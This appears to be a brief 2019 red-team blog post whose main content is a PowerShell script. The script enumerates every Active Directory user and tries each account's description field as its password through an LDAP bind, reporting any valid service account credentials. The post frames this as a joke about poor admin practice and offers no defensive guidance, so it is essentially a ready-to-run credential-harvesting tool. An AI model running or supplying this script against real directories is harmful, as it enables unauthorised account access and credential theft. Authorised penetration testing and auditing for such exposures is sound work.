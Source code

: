 ```yaml
---
title: Dumbest pentesting script to ever succeed
description: Getting service account credentials where you shouldn't
date: 2019-07-09
tags: [penetration testing, red team, vulnerability]
---
```


## Scanning for passwords in description fields in AD
In today's episode of "I can't believe this is real", the below Powershell script has a better than average likelyhood of handing out service account credentials.

``` powershell

$users = Get-ADuser -filter * -Properties description
$currentDomain = "LDAP://" + ([ADSI]"").distinguishedName

foreach ($user in $users) {
    if ($user.Description -ne $null) {
        $lookup = New-Object System.DirectoryServices.DirectoryEntry($currentDomain, $user.SamAccountName, $user.Description)
        if ($lookup.Name -ne $null) {
            write-host "We have a valid credential with $($user.SamAccountName) $($user.Description)"
        }
    }
}
```
